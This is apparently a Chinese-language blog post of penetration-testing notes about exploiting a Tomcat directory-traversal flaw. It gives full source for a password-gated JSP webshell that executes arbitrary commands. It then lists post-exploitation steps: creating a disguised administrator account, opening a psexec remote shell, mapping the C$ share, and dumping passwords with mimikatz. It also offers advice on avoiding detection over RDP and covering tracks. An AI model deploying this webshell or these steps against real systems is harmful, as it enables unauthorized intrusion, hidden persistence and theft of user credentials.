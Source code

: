 ```yaml
---
layout: post
title: 最近两次内网渗透经验小记
author: alpha1e0
categories: 渗透经验
tags: 渗透测试
---
```


## 0x00 tomcat站点目录便利漏洞的利用
**1 利用配置文件获取信息。**

* 全局配置文件`server.xml`。存放在tomcat目录下conf文件夹，主要是`server.xml`，关注host标签、host中得context标签。
* 站点配置文件`web.xml`。全局的web.xml很少有敏感信息，主要关注`webapps/app/WEB-INF/web.xml`，这个配置文件有关于servlet的信息
* 其他配置文件，例如`struct-config.xml`，有关于bean的详细信息

**2 利用日志文件获取信息。**

* 日志文件的格式和存储目录在`servlet.xml`文件中配置
* 日志文件中可能有网站打包的jar文件的文件名
* 日志文件可能有sessionid等信息

------

## 0x01 JSP小马利用方式

**1 JSP小马**

{% highlight java %}
<%   
     if("password".equals(request.getParameter("pwd"))){       
          java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
          int a = -1;
          byte[] b = new byte[2048];
          out.print("<pre>");
          while((a=in.read(b))!=-1){
               out.println(new String(b));       
          }
          out.print("</pre>");   
}%>
{% endhighlight %}

*PS：以上代码最好改为POST方法*

**2 JSP小马利用**

这个小马利用起来比较麻烦，非交互，而且中文显示也有问题，所以还需要利用jsp小马获得更方便的shell。
如果135，3389无法访问，就比较麻烦了，不过我这次碰到的情况这两个端口都是开启的。

* 利用135端口
	
		net user superuser passwd /add  #添加superuser账户，用户名一定要混淆视听，比如tomcat、sqlserver之类
	
		net localgroup administrators superuser /add  #将用户superuser加入到administrators组
	
		psexec \\ip -u superuser -p passwd "cmd.exe"  #使用psexec远程shell
	
		net use z: \\ip\c$ /superuser:passwd  #映射磁盘到本地z：
	
		mimikatz.exe; privilege::debug; sekurlsa::logonpasswords  #导用户密码；导出用户密码之后最好删除superuser用户
	
* 利用3389端口
	
	利用3389端口远程桌面，这里要注意的是，3389“动作较大”容易被发现，如果是windows server还好，如果是普通windows则很容易被人发现，例如win7，如果黑客使用的不是当前登录的用户的账户，则当前登录的用户会看到一个对话框“某某想要远程登录到这台机器，是否允许”之类，当前用户一定会发现。
	